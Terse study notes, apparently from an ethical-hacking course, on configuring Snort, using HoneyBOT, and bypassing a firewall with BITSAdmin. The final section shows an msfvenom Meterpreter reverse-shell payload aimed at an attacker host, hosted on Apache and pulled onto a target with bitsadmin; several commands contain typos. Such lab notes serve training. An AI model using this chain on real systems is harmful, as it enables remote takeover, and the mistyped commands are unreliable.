 # Evading IDS, Firewalls, and Honeypots

## Snort

install in windows then copy paste config files like crack games

now 

```bash
snort
snort -W
snort.exe -dev -i 1
```

In snort/etc/snort.conf

at 45 line replace any with IP address whose you want to protect

at 51 line replace any with 8.8.8.8

from line 104 replace ../ with path/rules 

create two files in rules folder (black_list.rules , white_list.rules)

at 243, 246   change the path with snort and at 246 change libsf_engine.so with sf_engine.dll

comment 250 line , 262 to 266

at 326 delete Lzma 

at  532,533 at path of snort

at line at 534  output alert_fast: alert.ids:

on replace option replace all ipvar with var 

save file 

1 step more

## HoneyBOT

**Detect Malicious Network Traffic using HoneyBOT**

exe

**Bypass Firewall through Windows BITSAdmin**

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=<attackerip> lport=<port> -f exe > /<filepath>/<filename>.exe
```

delivery of exe

```bash
mkdir /var/www/html/share
chmod -755 /var/www/html/share
chown -R 755 /var/www/html/share
chmod -R 755 /var/www/html/share
chown -R www-data:www-data /var/www/html/share

cp filepath/filename.exe /var/www/html/share

service apache2 start
```

on target machine

```powershell
bitsadmin /tranfer filename.exe http:://<attackerip>/share/filename.exe <otputlocation>\filename.exe>
```